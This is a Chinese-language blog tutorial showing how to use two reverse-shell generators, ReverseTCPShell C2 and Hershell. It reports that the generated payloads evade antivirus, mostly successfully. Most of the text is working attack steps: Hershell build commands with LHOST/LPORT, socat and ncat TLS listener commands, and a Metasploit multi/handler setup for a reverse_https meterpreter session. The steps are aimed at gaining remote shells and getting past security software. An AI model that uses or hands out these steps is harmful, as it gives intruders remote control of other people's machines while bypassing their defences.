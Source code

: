 ```yaml
---
title: "ReverseTCPShell C2&amp;&amp;Hershell-两个反向shell生成器"
categories: [ "安全技术","工具分享" ]
tags: [ "webshell","免杀" ]
draft: false
slug: "481"
date: "2020-02-04 17:05:00"
---
```


## 事情起因

使用的是前面文章`nps_payload`的三件套环境，配置如下：

- Win7 SP1 build 7601
- windows 防火墙打开
- 360 杀毒正式版 5.0.0.8170
- 腾讯电脑管家 13.3.20238.213
- 火绒 5.0.36.16

## ReverseTCPShell C2

首先从[github 地址][1]下载`ReverseTCP.ps1`文件并使用`powershell`打开

设置`LHOST`和`LPORT`，会让你选择加密方式，默认有三种

- ASCII
- xor
- Base64

我这里选择了`xor`

![][2]

自动生成了`ps`和`cmd`下的利用代码，并且开始监听`LPORT`

![][3]

我们复制`cmd`代码到`win7`上，成功免杀三件套获得`shell`

![][4]

可以执行简单的命令`ls`,`whoami`,`upload`,`download`,`screenshot`

![][5]

虽然执行的命令少，但至少目前是三件套免杀的，可以获取到`shell`后上传免杀渗透工具继续渗透。

## Hershell

> Hershell 是一款 go 语言编写的多平台反向 shell 生成器，使用 tls 加密流量，并提供证书公钥指纹固定功能，防止流量拦截。

这个工具需要`go`环境，如果已经安装的可以跳过这部分

### go 环境

首先打开`go`环境下载的[中文官网][6]，获取最新`linux`版本的`go`下载链接：

```
wget https://studygolang.com/dl/golang/go1.13.7.linux-amd64.tar.gz
sudo tar -xzf go1.13.7.linux-amd64.tar.gz -C /usr/local/
export GOROOT=/usr/local/go
export GOBIN=$GOROOT/bin
export PATH=$PATH:$GOBIN
export GOPATH=$HOME/gopath (可选设置)
go version查看是否安装成功
```

### 使用

拉取：

```
go get github.com/lesnuages/hershell
```

首先生成一个证书：

```
cd hershell
make depends
```

![][7]

以 windows 为例，生成一个客户端，其他平台同理：

```
make windows64 LHOST=192.168.1.18 LPORT=3333
```

![][8]

得到的`hershell.exe`拷贝到目标主机上，**实测`360`杀毒能够查杀，火绒和腾讯没问题**

然后可以使用如下程序开始监听：

- socat
- ncat
- openssl server module
- metasploit multi handler（python/shell_reverse_tcp_ssl payload）

我个人推荐使用`socat`，命令如下：

```
socat openssl-listen:3333,reuseaddr,cert=server.pem,cafile=server.key system:bash,pty,stderr
```

但我运行一直报错：

![][9]

只能使用`ncat`了，这个`ncat`可不是那个`netcat`的`nc`

安装`nmap`即可使用，监听命令为：

```
ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 3333
```

![][10]

虚拟机上打开`hershell.exe`，`ubuntu`上即可接收到`shell`:

![][11]

### 与 msf 互传

支持 msf 以下的 payload：

- windows/meterpreter/reverse_tcp
- windows/x64/meterpreter/reverse_tcp
- windows/meterpreter/reverse_http
- windows/x64/meterpreter/reverse_http
- windows/meterpreter/reverse_https
- windows/x64/meterpreter/reverse_https

那这里就选择 64 位的带`ssl`的`windows/x64/meterpreter/reverse_https`吧

先把`hershell`生成的`server.pem`文件拷贝在`msf`所在主机上，然后`msf`开启监听：

```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
setg LHOST 192.168.1.2
setg LPORT 3333
set HandlerSSLCert /root/server.pem
exploit -j -z
```

这里的`ip`和端口都是`msf`所在主机上的，可以随便设置

![][12]

然后 hershell 进行同传：

```
[hershell]> meterpreter https 192.168.1.2:3333
```

![][13]

实测没有接收成功

参考文章：

- [RedTeam 之 ReverseTCPShell][14]
- [Hershell-----一款多平台反向 shell 生成器][15]

本文完。

[1]: https://github.com/ZHacker13/ReverseTCPShell
[2]: https://img.soapffz.com/archives_img/2020/02/04/archives_20200204_170200.png
[3]: https://img.soapffz.com/archives_img/2020/02/04/archives_20200204_170225.png
[4]: https://img.soapffz.com/archives_img/2020/02/04/archives_20200204_170135.png
[5]: https://img.soapffz.com/archives_img/2020/02/04/archives_20200204_170325.png
[6]: https://studygolang.com/dl
[7]: https://img.soapffz.com/archives_img/2020/02/04/archives_20200204_173517.png
[8]: https://img.soapffz.com/archives_img/2020/02/04/archives_20200204_202904.png
[9]: https://img.soapffz.com/archives_img/2020/02/04/archives_20200204_210409.png
[10]: https://img.soapffz.com/archives_img/2020/02/04/archives_20200204_210636.png
[11]: https://img.soapffz.com/archives_img/2020/02/04/archives_20200204_210743.png
[12]: https://img.soapffz.com/archives_img/2020/02/04/archives_20200204_211705.png
[13]: https://img.soapffz.com/archives_img/2020/02/04/archives_20200204_212544.png
[14]: https://mp.weixin.qq.com/s/JbgSdLTkZJA5LJ6kUWPzSg
[15]: https://mp.weixin.qq.com/s/xg2SBD_k-zEobkbvOvrfqA